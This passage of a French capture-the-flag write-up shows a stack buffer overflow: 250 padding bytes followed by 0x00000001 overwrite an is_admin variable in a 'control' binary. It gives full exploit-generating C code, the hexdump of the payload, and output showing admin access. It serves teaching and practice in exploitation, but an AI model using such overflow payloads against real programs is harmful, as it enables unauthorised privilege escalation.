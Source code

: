 | OFFSET  | BUF | in STACK |
|---------|--------- |-|
| 250 | 0x000001 | *int* is_admin
| 0 | AAAAAAAAAAAAAAA [...250] | *char[]* action

Le code complet de *exploit.c*:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define PADDING_LEN 250 // Le nombre de 'A' à écrire
#define PADDING_CHAR 0x41 // définir le padding à 'A'
#define PAYLOAD "\x01\x00\x00\x00" // écriture little endian de 0x00000001
#define PAYLOAD_LEN 4
#define TOTAL_LEN PADDING_LEN+PAYLOAD_LEN

#define PATH "evil"

int main(int argc, char *argv[]) {
  char *buf = (char *)malloc(TOTAL_LEN);
  memset(buf, PADDING_CHAR, PADDING_LEN);
  memcpy(buf + PADDING_LEN, PAYLOAD, PAYLOAD_LEN);

  FILE *f = fopen(PATH, "w");
  if (!f) {
    printf("Couldn't write file to %s\n", PATH);
    return -1;
  }
  fwrite(buf, 1, TOTAL_LEN, f);
  printf("Exploit written to %s\n", PATH);
  return 0;
}
```
On compile *exploit.c* puis génère l'exploit à pipe:
```bash
$ gcc ./exploit.c -o genexploit
$ ./genexploit
Exploit written at evil
$ hexdump ./evil
0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
00000f0 4141 4141 4141 4141 4141 0001 0000     
00000fe
```
Il ne reste plus qu'à tester l'exploit:
```bash
$ cat evil | ./control
### ACTION DISPATCHER ###
# UNRECOGNIZED COMMAND

cat: ./flag.txt: No such file or directory
Bienvenue dans l'espace ADMIN !%                                                
```
Le programme a tenté d'ouvrir *flag.txt* ! Il faut maintenant tester l'exploit sur la machine du challenge.
